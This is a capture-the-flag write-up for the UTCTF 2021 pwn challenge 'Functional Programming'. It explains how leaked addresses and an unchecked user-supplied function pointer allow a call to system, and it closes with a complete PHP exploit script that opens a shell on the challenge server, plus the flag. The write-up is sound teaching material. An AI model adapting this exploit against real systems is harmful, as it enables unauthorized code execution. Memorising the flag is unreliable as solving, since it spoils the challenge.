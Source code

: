 # Functional Programming - UTCTF 2021 (pwn, 950p, 72 solved)

## Introduction
Functional Programming is a binary exploitation task.

An x64 ELF binary is given. This binary asks for a list of `n` elements (with
`n` being specified by the user). It then prints the list and asks for a
parameter (`increment`, `positive`, `abs`) and a function (`map`, `filter`). The
binary shows then the list after applying the parameters and exits.

## Reverse engineering
The binary prints the addresses of the `increment`, `positive` and `abs`
functions. It also prints the addresses of the `map` and `filter` functions
later.

These functions are located at the following address:
- `increment`: PIE + `0xAB5`
- `positive`: PIE + `0xAC4`
- `abs`: libc + `0x3A640`
- `map`: PIE + `0x950`
- `filter`: PIE + `0x9d5`

These values can be used to leak the address where the libc and the main binary
are located.

The binary takes two addresses from the user: `parameter` and `function`. It
calls `function(list, parameter)`

## Vulnerabilities
The program does not check the values of `function` and `parameter`. It happily
takes any pointers given by the user and jumps to it.

## Exploitation
The exploitation is straightforward : leak libc from the `abs` address, set
`function` to the address of `system` and put `/bin/sh` in `list`.

**Flag**: `utflag{lambda_calculus_pog891234}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "Socket.php";

const OFF_ABS    = 0x0003A640;
const OFF_SYSTEM = 0x000453a0;

$payload = unpack("V", str_pad("sh", 4, "\x00"))[1];

const HOST = "pwn.utctf.live";
const PORT = 5432;

printf("[*] Creating process\n");
$time = microtime(true);
$t = new SocketTube(HOST, PORT);
printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$t->expect("Enter the length of the list: ");
$t->write("1\n");

$t->expect("Enter element 0: ");
$t->write("$payload\n");

$t->expectLine("Your list is: $payload ");

$t->expectLine("Pick a parameter:");
$t->expect("Increment: 0x"); $t->readLine();
$t->expect("Positive: 0x");  $t->readLine();
$t->expect("Abs: 0x");       $abs = $t->readLine();
$t->write("586552\n");

$libc   = hexdec($abs) - OFF_ABS;
$system = $libc + OFF_SYSTEM;

$t->expectLine("Pick a function:");
$t->expect("Map: 0x"); $t->readLine();
$t->expect("Filter: 0x"); $t->readLine();
$t->write(dechex($system) . "\n");

printf("[!] Shell\n");
$t->pipe();
```
